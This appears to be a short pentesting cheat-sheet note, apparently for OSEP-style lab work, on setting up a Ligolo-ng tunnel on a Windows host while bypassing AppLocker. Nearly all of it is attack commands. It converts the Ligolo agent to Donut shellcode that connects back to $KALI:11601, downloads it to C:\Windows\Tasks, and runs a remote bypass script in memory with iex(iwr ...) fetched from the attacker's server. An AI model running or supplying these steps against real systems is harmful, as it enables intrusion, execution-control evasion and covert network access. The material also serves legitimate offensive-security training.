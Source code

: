 
Set up ligolo proxy first: [[Ligolo-ng#Install]]

```
sudo wget https://raw.githubusercontent.com/Extravenger/OSEPlayground/refs/heads/main/04%20-%20Tunneling/Ligolo-ApplockerBypass/Ligolo-ApplockerBypass.ps1 -O /var/www/html/Ligolo-ApplockerBypass.ps1
```


```
git clone https://github.com/nicocha30/ligolo-ng
```

```
cp ligolo-ng/ligolo-agent.exe donut/
```

[[Donut]]

```
./donut -f 1 -o agent.bin -a 2 -p "-connect $KALI:11601 -ignore-cert" -i ligolo-agent.exe
```

`agent.bin`

```
sudo cp agent.bin /var/www/html
```

Copy this agent.bin to target C:\Windows\Tasks
```
iwr http://$KALI/agent.bin -OutFile C:\Windows\Tasks\agent.bin
```

Then run:
```
iex(iwr http://$KALI/Ligolo-ApplockerBypass.ps1 -UseBasicParsing)
```

If no success in the first time, make sure to kill the notepad.exe process with:
```
taskkill /IM:notepad.exe /F
```

before trying again.

```
session
```

```
1
```

```
start
```
